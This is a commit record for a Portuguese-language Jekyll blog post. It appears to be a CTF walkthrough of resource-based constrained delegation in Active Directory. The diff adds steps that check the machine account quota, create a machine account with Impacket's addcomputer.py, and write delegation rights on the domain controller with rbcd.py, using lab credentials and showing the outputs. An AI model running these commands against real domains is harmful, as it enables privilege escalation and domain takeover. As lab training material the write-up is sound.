

Before and after one commit to redp4w/redp4w.github.io, a Jekyll site: the page built from _posts/2026-10-25-proxy-rbcd-active-directory.md, in a window 1280 px wide and 1400 px high, scrolled down 7577 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 8207 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
docs: registra pré-requisitos e configuração RBCD

```diff
--- a/_posts/2026-10-25-proxy-rbcd-active-directory.md
+++ b/_posts/2026-10-25-proxy-rbcd-active-directory.md
@@ -291,3 +291,72 @@ O GUID <code>3f78c3e5-f79a-46bd-a0b8-9d18116ddc79</code> identifica o atributo <
 | **DC01$** | Conta de máquina do Domain Controller |
 
 **Conclusão da enumeração:** <code>r.williams</code> não precisava ser Domain Admin: tinha direito de escrita no atributo preciso que controla a delegação no objeto <code>DC01$</code>.
+
+
+<a id="requisitos"></a>
+
+## 6. Pré-requisitos: por que RBCD seria possível?
+
+Além da permissão <code>AddAllowedToAct</code>, precisava de uma conta de serviço/computador sob controle.
+
+~~~powershell
+Get-ADObject -Identity 'DC=ctf,DC=local' -Properties 'ms-DS-MachineAccountQuota' |
+  Select-Object -ExpandProperty 'ms-DS-MachineAccountQuota'
+~~~
+
+Resultado: <code>10</code>. Essa é a cota padrão para criação de computadores; ainda foi necessário confirmar a criação de fato.
+
+O exemplo <code>New-MachineAccount</code> mostrado pelo BloodHound é do **Powermad** (PowerShell). O <code>addcomputer.py</code> realiza a etapa equivalente pelo Impacket (Linux). Verifique a versão instalada com <code>addcomputer.py -h</code>, não copie parâmetros incompletos de uma página.
+
+<a id="rbcd"></a>
+
+## 7. Conta de computador e configuração RBCD
+
+Na AttackBox:
+
+~~~bash
+addcomputer.py \
+  -dc-ip 10.64.163.15 \
+  -dc-host DC01.ctf.local \
+  -computer-name 'LABPC01$' \
+  -computer-pass 'LabPC2026!Strong' \
+  'ctf.local/r.williams:Helpdesk01!'
+~~~
+
+Retorno: <code>Successfully added machine account LABPC01$</code>.
+
+| Parâmetro | Função |
+|---|---|
+| <code>-computer-name</code> | Nome da conta de máquina criada |
+| <code>-computer-pass</code> | Senha sob nosso controle |
+| <code>-dc-ip</code> / <code>-dc-host</code> | Identificam o DC |
+| <code>domínio/usuário:senha</code> | Conta que solicita a criação |
+
+O <code>$</code> final é típico das contas de máquina.
+
+Para configurar a delegação no objeto <code>DC01$</code>:
+
+~~~bash
+rbcd.py \
+  -dc-ip 10.64.163.15 \
+  -action write \
+  -delegate-from 'LABPC01$' \
+  -delegate-to 'DC01$' \
+  'ctf.local/r.williams:Helpdesk01!'
+~~~
+
+Resultado: <code>Delegation rights modified successfully!</code>.
+
+<code>-delegate-from</code> identifica a conta autorizada a delegar. <code>-delegate-to</code> é o recurso de destino. **A escrita modifica um atributo sensível no AD.**
+
+Conferência:
+
+~~~bash
+rbcd.py \
+  -dc-ip 10.64.163.15 \
+  -action read \
+  -delegate-to 'DC01$' \
+  'ctf.local/r.williams:Helpdesk01!'
+~~~
+
+Resultado: <code>LABPC01$</code> apareceu autorizada no objeto <code>DC01$</code>.
```
